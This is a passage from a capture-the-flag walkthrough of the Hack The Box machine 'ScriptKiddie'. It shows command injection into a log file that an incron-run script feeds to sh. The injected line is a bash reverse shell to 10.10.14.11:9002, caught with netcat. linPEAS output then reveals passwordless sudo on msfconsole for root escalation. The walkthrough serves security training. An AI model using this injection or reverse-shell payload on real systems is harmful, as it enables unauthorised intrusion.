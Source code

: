 ```bash
```
We can see a process triggered by `incrond` , incrond is a daemon which monitors filesystem events and executes commands defined in system and user tables. Now, if we cat the scanlosers.sh file we can see the following content:  
```bash
kid@scriptkiddie:/dev/shm$ cat /home/pwn/scanlosers.sh
  #!/bin/bash

  log=/home/kid/logs/hackers

  cd /home/pwn/
  cat $log | cut -d' ' -f3- | sort -u | while read ip; do
      sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
  done

  if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
Now, as we can see the application is executing `nmap` against the ip found in the log file.  
As we can notice, the cut function uses as argument `-f3-` which basically means cut from the third item till the end of the line.  
Now, since we can write the log file, because we are the owners, we can inject the following payload int the log file:  
```bash
kid@scriptkiddie:~/logs$ echo "[2022-06-06 09:08:18.512966] 10.10.14.11; bash -c 'bash -i >& /dev/tcp/10.10.14.11/9002 0>&1'; #" > hackers
```
and as we can notice, we get a shell as user `pwn`
```
[root@kali ScriptKiddie ]$ bash                            
root@kali:~/Documents/HTB/Boxes/ScriptKiddie# nc -lvnp 9002                           
listening on [any] 9002 ...                                
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.226] 46644                                                          
bash: cannot set terminal process group (864): Inappropriate ioctl for device                                         
bash: no job control in this shell                         
pwn@scriptkiddie:~$ 
```
## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice the following sudo capability for user pwn:  
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for pwn on scriptkiddie:                                                                    
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:                                                              
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole   
```
Now, as we already know, we can leverage this by running msfconsole command and execute a shell:  
```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
```